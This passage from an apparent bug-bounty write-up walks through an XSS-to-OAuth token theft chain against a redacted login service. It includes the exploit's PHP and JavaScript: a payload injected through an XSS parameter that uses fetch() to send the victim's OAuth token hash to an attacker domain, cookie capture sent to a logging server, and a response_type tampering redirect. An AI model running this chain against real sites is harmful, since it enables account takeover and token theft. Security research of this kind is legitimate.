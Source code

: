 ```php
            //great now if I run `window.opener` from the xss page I get the whole token and everything

        }

    </script>

    <a href="#" onclick="startExploit()">Start Exploit</a>
</body>
```


This endpoint was responsible for generating the oauth url:

![BurpSuiteCommunity_xLyg501nml](https://github.com/Sudistark/xss-writeups/assets/31372554/c80c6611-6339-478a-8a2f-8bb2cb4d7d0f)

In the response headers you can see this cookie:

```
Set-Cookie: idccsrf=-898201194036363428516943317029004569446202656766185;
```

This cookie is really important , while using the the authorization code the server validates if the user's cookie `idccsrf` matches with the `idccsrf` cookie assigned at the time of generating the ouath url.



The above php code does the following thing,makes a request to https://login.redacted.com/services/auth/sso/google/ on line [1], from the header response get the `Location` header value and from the `Set-Cookie` header get the `idccsrf` cookie value.

Then we send the cookie to our logging server so that we can use it later.
On line [2] we modify the `response_type` parameter value to `code,id_token`.

After that starts javascript code

```js
payload = `setTimeout(()=>{fetch("<?php echo $attackerDomain; ?>"%2Bescape(window.opener.document.location.hash));alert(window.opener.document.location.hash)},9000)`
```

This is the xss payload which we will be using , basically it alerts the 
`window.opener.document.location.hash` value after 9sec.

The `startExploit` method does the following things which are important for this attack,

This opens the xss endpoint via `window.open` refers to this window as winB and the current page as winA (which has all the php code,js code,etc)

```js
win = window.open(`https://login.redacted.com/xssendpoint?param=shirley')};${payload};function%20xyz(){window.parent.postMessage('x`);
```

Then after 5sec , we redirect the winA to the value stored in `$location` variable. This variable contains the modified `response_type` oauth url.


```js
           setTimeout(() => {
                window.location = `<?php echo $location; ?>;`
                
            }, 5000);
```
